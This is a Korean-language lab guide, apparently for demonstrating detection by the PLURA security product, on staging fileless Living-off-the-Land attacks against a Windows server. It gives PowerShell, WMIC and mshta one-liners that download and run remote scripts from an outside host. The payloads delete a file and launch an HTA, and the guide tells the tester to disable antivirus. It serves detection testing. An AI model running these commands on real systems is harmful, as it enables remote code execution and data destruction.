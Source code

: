 # LOL 공격 중 파일리스 소개

## 테스트 환경 구축

1. **공격 서버**
   - 웹 서버가 구축되어 있어야 합니다.
   
2. **MALSCRIPT**
   - 공격 서버의 웹루트 디렉터리 내에 위치해야 합니다. (`/var/www/html/`)
   - 침투한 파일은 웹 요청 본문으로 전달하여 웹셸(Web Shell)로 바꿀 수 있습니다.

3. **MALSCRIPT 공격문의 경로**
   - 피해 서버에서 삭제할 파일의 경로를 입력해야 합니다.

4. **피해 서버**
   - PLURA 에이전트가 설치되어 있어야 합니다.
   - 삭제할 파일 (`C:\Program Files\important-file.txt`)이 존재해야 합니다.
   - ※ 해당 경로에 파일이 존재하지 않을 경우, 공격 성공 여부를 확인할 수 없습니다.

5. **운영 환경**
   - 피해 서버는 Windows 서버로 구성해야 합니다.
   - Windows 실시간 보호 및 V3와 같은 백신 프로그램은 중지해야 합니다.

6. **명령 실행**
   - 피해 서버에서 `cmd` 또는 `PowerShell`을 관리자 권한으로 실행하여 명령문을 수행합니다.

---

# LOL 공격 및 파일리스 공격이란

### LOL (Living Off the Land) 공격
- 시스템에 설치된 합법적인 바이너리, DLL 등의 도구를 이용하여 공격하는 방식.

### 파일리스(Fileless) 공격
- 공격 파일이 피해 서버의 디스크에 저장되지 않고, 메모리에서 직접 실행되는 공격 기법.

다음은 LOL을 활용한 파일리스 공격 방법입니다. 해당 공격 수행 후 PLURA에서 탐지 내역을 확인할 수 있습니다.

---

# 공격 시연 방법

우선 침투한 파일은 웹 요청 본문으로 전달하여 웹셸(Web Shell)로 바꿀 수 있습니다. 이 공격 기법은 웹 서버를 통한 추가적인 악성 행위 수행에 활용될 수 있습니다.

👉 [자세히](webshell_attack_steps.md)

## PowerShell (T1059.001)
- **PowerShell을 사용하여 파일리스 공격 수행**
- **스크립트:** `MALSCRIPT.ps1`

```powershell
Remove-Item '<피해 서버에서 삭제할 파일의 경로>'

# 예시
Remove-Item 'C:\Program Files\important-file.txt'
```

### 명령문
- `cmd`, `PowerShell` 모두 사용 가능:
```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://ethanlabs.shop/MALSCRIPT.ps1')"
```

- **공격 성공 시:** 피해 서버의 파일이 삭제되며, PLURA에서 탐지 내역 확인 가능.

---

## Windows Management Instrumentation (T1047)
- **WMIC를 사용하여 원격 명령 실행**
- **스크립트:** `MALSCRIPT.ps1`

```powershell
Remove-Item '<피해 서버에서 삭제할 파일의 경로>'

# 예시
Remove-Item 'C:\Program Files\important-file.txt'
```

### 명령문
- `cmd`에서 수행:
```cmd
wmic process call create "powershell -NoProfile -ExecutionPolicy Bypass -Command \"IEX (New-Object Net.WebClient).DownloadString('http://ethanlabs.shop/MALSCRIPT.ps1')\""
```

- **공격 성공 시:** 피해 서버의 파일이 삭제되며, PLURA에서 탐지 내역 확인 가능.

---

## Mshta (T1218.005)
- **Mshta를 사용하여 악성 HTA 파일 실행**
- **스크립트:** `MALSCRIPT.hta`

```html
<html>
<head>
    <title>Malicious HTA</title>
    <hta:application id="oHTA"
        border="thin"
        borderstyle="normal"
        caption="yes"
        contextmenu="no"
        innerborder="no"
        maximizebutton="no"
        minimizebutton="no"
        navigable="yes"
        scroll="no"
        scrollflat="no"
        selection="yes"
        showintaskbar="yes"
        singleinstance="yes"
        sysmenu="yes"
        version="1.0"
        windowstate="normal">
    </hta:application>
    <script language="JScript">
        var shell = new ActiveXObject("WScript.Shell");
        shell.Run("calc.exe");
    </script>
</head>
<body>
    <h1>Malicious HTA</h1>
</body>
</html>
```

### 명령문
- `cmd`, `PowerShell` 모두 사용 가능:
```cmd
mshta http://ethanlabs.shop/MALSCRIPT.hta
```

- **공격 성공 시:** 피해 서버에서 "Malicious HTA" 창과 계산기가 실행되며, PLURA에서 탐지 내역 확인 가능.

---

# 주의사항
- **PowerShell, WMIC, Mshta**는 Windows 내 강력한 스크립트 실행 도구로 파일리스 공격을 수행하는 데 자주 사용됩니다.
- 공격자는 디스크에 파일을 저장하지 않고 메모리 내에서 바로 실행하여 탐지 회피를 시도합니다.
- 위 과정을 통해 PLURA의 탐지 기능과 보안 로그를 확인하세요.

---

# 공격 개요 (Diagram)

```mermaid
graph TD
    A[공격 서버] -->|MALSCRIPT 전달| B[피해 서버]
    B -->|PowerShell 실행| C[파일 삭제 수행]
    B -->|WMIC 실행| D[명령 수행]
    B -->|Mshta 실행| E[HTA 파일 실행]
    C -->|결과 확인| F[PLURA 탐지 내역]
    D -->|결과 확인| F[PLURA 탐지 내역]
    E -->|결과 확인| F[PLURA 탐지 내역]
```
